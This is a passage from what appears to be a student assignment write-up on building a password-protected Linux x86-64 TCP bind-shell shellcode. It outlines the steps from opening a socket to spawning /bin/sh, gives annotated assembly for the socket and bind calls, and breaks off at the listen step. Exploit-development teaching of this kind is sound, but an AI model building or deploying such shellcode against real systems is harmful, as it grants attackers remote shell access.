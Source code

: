 ## Assignment #1
## Bind_Shell_TCP

### Introduction
Requirements for this assignment are to create a Shell_Bind_TCP shellcode that: 

 1. Listens on a specific port 
 2. Requires a password 
 3. If the password is correct, then Exec Shell is executed 
 4. Also, the NULL bytes (0x00) must be removed from the shellcode 

To build the shellcode, we is required the use of the linux sockets and do the following steps: 

 1. Create a socket 
 2. Bind the socket to a port 
 3. Start listenning for connections 
 4. Accept incoming connections 
 5. Ask, read, and validate the password 
 6. Duplicate `SDTIN`, `STDOUT` and `STDERR` to the socket descriptor 
 7. Execute /bin/sh for the incoming and validated conection 

In case the password is not correct, the shellcode will exit with a Segmentation Fault. The shellcode won’t care on how the program terminates. This makes sense as shellcode will be smaller in size and really does not matter how it exits. 

For Linux Sockets Programming, the following System calls are required on this assignment: 

```c
int socket(int domain, int type, int protocol); 
int bind(int sockfd, const struct sockaddr *addr, 
         socklen_t addrlen); 
int listen(int sockfd, int backlog); 
int accept(int sockfd, struct sockaddr *addr, 
           socklen_t *addrlen); 
int close(int sockfd); 
```
To duplicate the standard input, output and error, `dup2()` call will be used: 

```c
int dup2(int oldfd, int newfd); 
```

And to execute `/bin/sh`, will use the `execve()` call: 

```c
int execve(const char *filename, 
           char *const argv[], 
           char *const envp[]); 
```
### ASM Implementation
----

Will explain how we implement each step mentioned before into ASM, with the idea to make the code easy to understand. No enphasys has been put into removing NULLs and make the shellcode small (this is done later).

#### Create a Socket

```asm
; sock = socket(AF_INET, SOCK_STREAM, 0) 
mov rax, 41                     ; syscall number 
mov rdi, AF_INET                ; IPv4 
mov rsi, SOCK_STREAM            ; TCP connection 
mov rdx, 0                      ; IP Protocol 
syscall 
; Save the socket_id value in RDI for future use 
mov rdi, rax                    ; value returned in RAX by syscall  
```
This is the first step required for sockets, open the socket. 
To execute the sys_socket system call the arguments will have to be placed in the corresponding registers: 

 - RAX <- 41 : Syscall number. 
 - RDI <- 2 : Domain parameter. AF_INET is for IPv4. 
 - RSI <-  1 : Type parameter. SOCK_STREAM means connection oriented TCP. 
 - RDX <- 0 : Protocol. IPPROTO_IP means it’s an IP protocol 

The syscall will return a file descriptor in RAX that is saved into RDI. This saves the socket_id for later use in the code

#### Bind the Created Socket to a Port

```asm
; Prepare (struct sockaddr *)&server 
;       RSP will point to the struct address 
xor rax, rax 
push rax                        ; bzero(&server.sin_zero, 8) 

mov dword [rsp - 4], INADDR_ANY 
mov word [rsp - 6], PORT 
mov word [rsp - 8], AF_INET 
sub rsp, 8                      ; Update RSP with right value 

; bind(sock, (struct sockaddr *)&server, sockaddr_len) 
;       RDI already has the sock_id 
mov rax, 49                     ; syscall number 
mov rsi, rsp                    ; @ to (struct sockaddr * &server) 
mov rdx, 16                     ; length of the sockaddr struct 
syscall  
```
This part irequires two steps:

- Create the `struct sockaddr` structure. Stack is used to store the values of the struct:
 - Values are placed on the stack
 - Stack Pointer (RSP) is updated with the new address
- Call the `bind` syscall. Values for parameters are placed into the registers:
 - RAX: Syscall number (49)
 - RDI: Socket descriptor. Already has the value from previous point
 - RSI: Address of the struct. This value is in RSP
 - RDX: The lengh of the sockaddr struct. It's 16 bytes

#### Listen for Incoming Connections









